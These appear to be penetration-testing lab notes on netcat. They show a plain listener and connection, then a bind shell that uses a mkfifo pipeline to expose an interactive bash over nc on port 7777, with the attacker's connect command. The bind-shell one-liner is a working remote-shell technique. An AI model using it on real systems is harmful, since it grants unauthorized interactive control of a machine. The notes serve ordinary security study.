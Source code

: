 
Target box - Start listener
```
nc -lvnp 7777
```

Attack box - Connect on nc
```
nc -nv 10.129.41.200 7777
```

## Setting up bind shell with nc

Target Machine - Start bash listener
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Attack box - Connect to bind shell
```
nc -nv 10.129.41.200 7777
```

